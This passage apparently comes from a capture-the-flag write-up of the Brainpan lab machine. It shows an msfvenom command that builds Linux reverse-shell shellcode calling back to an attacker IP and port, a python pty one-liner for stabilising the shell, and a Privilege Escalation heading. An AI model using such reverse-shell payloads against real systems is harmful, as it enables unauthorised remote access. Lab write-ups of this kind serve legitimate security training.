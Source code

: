 ![img-description](/assets/img/Brainpan/Brainban_sh.png)
_sh script_

So we need to change our shell using this command

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.21.105.110 LPORT=1234 EXITFUNC=thread -b "\x00" -f c
```

Run the script again and Now we have a shell, let's stabilize it using this command

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Privilege Escalation

After getting the user access and getting a good shell we will see what are our privilege on this system

![img-description](/assets/img/Brainpan/Brainban_Priv.png)